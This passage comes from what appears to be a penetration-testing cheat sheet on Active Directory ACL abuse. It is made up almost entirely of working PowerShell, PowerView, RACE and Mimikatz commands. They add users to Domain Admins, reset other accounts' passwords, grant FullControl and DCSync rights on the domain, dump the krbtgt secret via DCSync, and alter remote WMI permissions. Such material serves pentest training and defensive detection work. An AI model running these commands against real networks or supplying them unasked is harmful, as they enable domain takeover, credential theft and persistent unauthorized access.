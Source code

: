 - Check the Domain Admins permission - PowerView as normal user:
  - `Get-DomainObjectAcl -Identity 'Domain Admins' -ResolveGUIDs | ForEach-Object {$_ | Add-Member NoteProperty 'IdentityName' $(Convert-SidToName $_.SecurityIdentifier);$} | ?{$_.IdentityName -match "<USER>"}`
- Using ActiveDirectory Module:
  - `(Get-Acl -Path 'AD:\CN=DomainAdmins,CN=Users,DC=<DC_NAME>,DC=<DC_EXTENSION>').Access | ?{$_.IdentityReference -match '<USER>'}`
- Abusing FullControl using PowerView: 
  - `Add-DomainGroupMember -Identity 'Domain Admins' -Members <TEST_USER> -Verbose`
- Using ActiveDirectory Module:
  - `Add-ADGroupMember -Identity 'Domain Admins' -Members <TEST_USER>`
- Abusing ResetPassword using PowerView:
  - `Set-DomainUserPassword -Identity <TEST_USER> -AccountPassword (ConvertTo-SecureString "<PASSWORD>" -AsPlainText -Force) -Verbose`
- Using ActiveDirectory Module:
  - `Set-ADAccountPassword -Identity <TEST_USER> -NewPassword (ConvertTo-SecureString "<PASSWORD>" -AsPlainText -Force) -Verbose`

### ACLs - Rights Abuse

- Add FullControl rights:
  - `Add-DomainObjectAcl -TargetIdentity 'DC=<DC_NAME>,DC=<DC_EXTENSION>' -PrincipalIdentity <USER> -Rights All -PrincipalDomain <DOMAIN_NAME> -TargetDomain <DOMAIN_NAME> -Verbose`
- Using ActiveDirectory Module and [RACE](https://github.com/samratashok/RACE):
  - `Set-ADACL -SamAccountName <USER> -DistinguishedName 'DC=<DC_NAME>,DC=<DC_EXTENSION>' -Right GenericAll -Verbose`
- Add rights for DCSync:
  -`Add-DomainObjectAcl -TargetIdentity 'DC=<DC_NAME>,DC=<DC_EXTENSION>' -PrincipalIdentity <USER> -Rights DCSync -PrincipalDomain <DOMAIN_NAME> -TargetDomain <DOMAIN_NAME> -Verbose`
- Using ActiveDirectory Module and RACE:
  - `Set-ADACL -SamAccountName <USER> -DistinguishedName 'DC=<DC_NAME>,DC=<DC_EXTENSION>' -GUIDRight DCSync -Verbose`
- Execute DCSync:
  - `Invoke-Mimikatz -Command '"lsadump::dcsync /user:<DOMAIN>\krbtgt"'`
  - or `C:\AD\Tools\SafetyKatz.exe "lsadump::dcsync /user:<DOMAIN>\krbtgt" "exit"`


### ACLs - Security Descriptors

WMI: Access control lists (ACLs) can be modified to grant permission for securable objects to be accessed by users who are not administrators. Using the RACE toolkit:
- On local machine for <USER>:
  `Set-RemoteWMI -SamAccountName <USER> -Verbose`
- On remote machine for <USER> without explicit credentials:
  `Set-RemoteWMI -SamAccountName <USER> -ComputerName <REMOTE_COMPUTER> -namespace 'root\cimv2' -Verbose`
- On remote machine with explicit credentials. Only root\cimv2 and nested namespaces:
  `Set-RemoteWMI -SamAccountName <USER> -ComputerName <REMOTE_COMPUTER> -Credential <CREDENTIALS> -namespace 'root\cimv2' -Verbose`
- On remote machine remove permissions:
  `Set-RemoteWMI -SamAccountName <USER> -ComputerName <REMOTE_COMPUTER> -namespace 'root\cimv2' -Remove -Verbose`
